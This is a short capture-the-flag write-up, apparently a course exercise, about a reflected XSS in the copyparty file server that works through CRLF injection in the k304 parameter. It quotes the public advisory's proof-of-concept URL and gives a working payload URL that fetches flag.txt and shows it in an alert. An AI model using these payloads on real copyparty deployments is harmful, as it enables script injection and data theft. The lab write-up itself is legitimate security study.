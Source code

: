 # CTF7

After opening the website and trying to detect some vulnerability, we found on the login page a button to enable/disable the k304 (disconnect the client on every HTTP 304). Upon enabling, we discovered that it added a cookie "k304=y".

![cookie](/Images/CTF7/cookie.png)

Then, we tried to access the flag.txt through injection of a script code using the k304 cookie. To acomplish that, we found a github (https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh) related to that same vulnerability. The example given in the exploit was:

```
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

So, we changed the source to a script that would give us the flag content:

```
fetch('/flag.txt').then(response => response.text()).then(text => alert(text))
```

Finally, the URL to the answer was:

```
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3C%3Cimg%20src=%22copyparty%22%20onerror=%22fetch(%27/flag.txt%27).then(response%20=%3E%20response.text()).then(text%20=%3E%20alert(text))%22%3E%3Dcopyparty+onerror%3Dalert(1)%3E
```

This URL gave us an "alert" with the actual flag:

flag{youGotMeReallyGood}

![search](/Images/CTF7/search.png)

Questions:
- Why can't we access the hidden flag directly? There is a restriction in the file flag.txt, because the content on that file was "Nice try, I am only accessible via JavaScript shenanigans.";
- Is there any known vulnerability? Yes, the github we found helped us getting the flag;
- Which type of XSS allowed us to access the flag? We used a XSS Reflected attack.